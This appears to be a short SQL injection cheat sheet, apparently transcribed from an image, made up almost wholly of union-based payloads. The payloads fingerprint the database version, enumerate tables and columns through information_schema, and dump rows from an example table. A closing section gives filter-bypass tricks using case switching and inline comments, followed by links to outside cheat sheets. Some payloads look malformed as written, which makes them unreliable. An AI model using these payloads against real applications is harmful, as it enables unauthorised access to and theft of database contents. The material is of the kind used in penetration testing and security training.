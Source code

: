 param=' or 1=0 union select substring(version(),1,1)=5,null,null from information\_schema.columns# --> return true if version is 5.x.x  
  
param=' or 1=0 union select substring(version(),3,1)=2,null,null from information\_schema.columns# --> return true if version is 5.2.x  
  
param=' or 1=0 union select table\_name,null,null from information\_schema.columns# --> display all table name  
  
param=' or 1=1 select table\_name,null,null from information\_schema.columns where table\_schema='public'# --> display tables inside public database  
  
param=' or 1=1 select column\_name,null,null from information\_schema.columns where table\_schema='public' and table\_name='info'# --> display all columns of info table  
  
param=' or 1=1 select table\_name as table,column\_name as column,null from information\_schema.columns#  
  

## Let say the database name is public and table name is info  
  
Let the table info has two columns id and name

  
  
param=' or 1=0 union select id,null,null from public.info# --> display id column from table "info"  
  
param=' or 1=0 union select id,name,null from public.info# --> display id and name column from table "info"  
  
param=' or 1=0 union select id,name,null from public.info where id='papa'# --> display id and name of 'papa'  
  

## BYPASSING filters

  
  
we can use case switching or commenting to bypass normal filters such as union, select  
  
param=' or 1=0 UniOn selEct id,null,null FroM public.info#  
  
param=' or 1=0 un//ion sele//ct id,null,null fr/\*\*/om public.info# works in mssql  
  
Useful Resources  
  
[http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)  
  
[http://garage4hackers.com/showthread.php?t=1990](http://garage4hackers.com/showthread.php?t=1990)